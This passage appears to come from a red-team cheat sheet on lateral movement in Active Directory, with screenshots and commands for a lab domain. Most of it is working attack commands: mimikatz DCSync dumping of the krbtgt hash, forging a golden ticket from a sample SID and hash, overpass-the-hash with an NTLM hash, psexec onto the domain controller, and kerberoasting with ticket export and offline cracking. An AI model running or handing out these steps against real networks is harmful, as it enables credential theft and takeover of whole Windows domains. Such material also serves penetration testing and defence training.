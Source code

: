 ![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen7.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen8.png?raw=true)

Note: we can use the target machine hash as the service hash for filesharing service (CIFS).

### Golden Ticket (Forged TGT)
```
# Dump krbtgt hash (run as domain admin)
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:marvel.local /all /csv

# Golden Ticket
mimikatz # kerberos::golden /user:invaliduser /domain:marvel.local /sid:S-1-5-21-410602843-3916082903-3170366279 /rc4:249030b29d08621192b77cb5c8580fad 
mimikatz # kerberos::ptt ticket.kirbi
exit

# CMD
klist
dir \\hydra-dc\c$
```

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen9.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen10.png?raw=true)

In the golden ticket, you’re not restricted to a single service, you got the KRBTGT, you can create your own TGT, so you can create a TGS for any service you want.

### OverPass The Hash
```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:administrator /domain:marvel.local /ntlm:ead0cc57ddaae50d876b7dd6386fa9c7

# New CMD (use hostname instead of IP to authenticate using Kerberos)
dir //hydra-dc/c$
psexec //hydra-dc cmd
```

### Kerbroasting
```
git clone https://github.com/nidem/kerberoast

# Get all SPNs
.\GetUserSPNs.ps1

# Request ticket for specific service
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "Hydra-DC/SQLService.MARVEL.local:60111" 

# Extract the tickets from memory
mimikatz # kerberos::list /export

# Crack the ticket
python tgsrepcrack.py wordlist.txt Administrator@Hydra-DC~SQLService.MARVEL.LOCAL.kirbi
```
